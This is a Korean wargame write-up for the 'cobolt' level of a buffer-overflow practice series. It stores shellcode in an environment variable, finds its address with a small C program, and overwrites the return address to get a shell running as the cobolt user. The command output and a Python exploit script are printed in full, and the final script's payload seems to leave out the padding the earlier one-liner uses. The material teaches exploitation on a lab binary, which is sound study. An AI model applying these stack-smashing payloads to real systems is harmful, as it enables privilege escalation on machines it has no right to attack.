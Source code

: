 NOP 50byte와 shellcode를 `shellcode` 라는 환경변수에 넣었다.

<br>

이제 남은것은 해당 환경변수의 주소를 구하는 것이다. 위에 처럼 gdb로 직접 스택의 주소를 확인 하는 방법이 있지만 API를 이용하면 보다 쉽게 주소를 구할 수 있다.

```c
main(){
    printf("addr : 0x%08x\n", getenv("shellcode"));
}
```

```shell
[gremlin@localhost gremlin]$ gcc -o env env.c
[gremlin@localhost gremlin]$ ./env
addr : 0xbfffff3c
```

`shellcode` 환경 변수의 주소는 **0xbfffff3c**이다. (쉽죠잉?😁)

이제 이 주소를 RET에 넣으면 끄읏...

```shell
[gremlin@localhost gremlin]$ ./cobolt `python -c 'print "A"*16+"BBBB"+"\x3c\xff\xff\xbf"'`
AAAAAAAAAAAAAAAABBBB<���
bash$ id
uid=501(gremlin) gid=501(gremlin) euid=502(cobolt) egid=502(cobolt) groups=501(gremlin)
bash$ my-pass
euid = 502
hacking exposed
bash$
```

-----

### 0x03. 정리

cobolt 문제는 buffer배열의 크기가 작아 배열 내에 shellcode를 넣는 것이 쉽지 않아 보였다. 때문에 buffer배열이 아닌 스택 영역 공간에 shellcode를 삽입해야 했으며, 그 방법으로  **main함수 RET 이후 스택 영역**과 **환경변수 영역**을 이용하여 문제를 풀었다. 이 외에도 실행가능한 스택영역 어디든 프로그램이 동작하는데에 영향을 주지 않는 곳이라면 모두 가능하다.

-----


```python
import os
import struct

append = lambda x: payload + x
p32 = lambda x: struct.pack("<I", x)

target = "/home/gremlin/cobolt"

shellcode_env_addr = 0xbfffff3c

payload = "\x90"*20
payload = append(p32(shellcode_env_addr))

pid = os.fork()

if pid == 0:
        os.execv(target, (target, payload))
else:
        os.waitpid(pid, 0)
```



-----